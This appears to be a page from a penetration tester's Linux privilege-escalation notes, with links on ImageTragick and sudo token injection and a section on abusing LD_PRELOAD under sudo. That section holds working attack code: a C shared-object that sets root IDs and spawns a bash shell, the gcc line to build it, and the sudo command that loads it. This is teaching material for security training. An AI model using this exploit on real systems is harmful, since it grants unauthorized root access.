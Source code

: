 ## ImageTragic (ImageMagick version)

[https://github.com/vulhub/vulhub/blob/master/imagemagick/imagetragick/README.md](https://github.com/vulhub/vulhub/blob/master/imagemagick/imagetragick/README.md)

## Sudo tokens (Process Injection)

[https://github.com/nongiach/sudo\_inject](https://github.com/nongiach/sudo_inject)

## LD\_PRELOAD

{% code overflow="wrap" fullWidth="true" %}
```sh
https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/
LD_PRELOAD is a function that allows any program to use shared libraries. This blog post  will give you an idea about the capabilities of LD_PRELOAD. If the  "env_keep" option is enabled we can generate a shared library which will  be loaded and executed before the program is run. Please note the  LD_PRELOAD option will be ignored if the real user ID is different from  the effective user ID. 

The steps of this privilege escalation vector can be summarized as follows;
1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
The C code will simply spawn a root shell and can be written as follows;
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
We can now use this shared object file when launching any program our  user can run with sudo. In our case, Apache2, find, or almost any of  the programs we can run with sudo can be used. 
We need to run the program by specifying the LD_PRELOAD option, as follows;
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
This will result in a shell spawn with root privileges. 
```
{% endcode %}

## sudoers

[https://linux.die.net/man/5/sudoers\
https://roshanguragain.com.np/tryhackme/hackerofthehill\_easy-tryhackme/](https://linux.die.net/man/5/sudoershttps://roshanguragain.com.np/tryhackme/hackerofthehill_easy-tryhackme/)
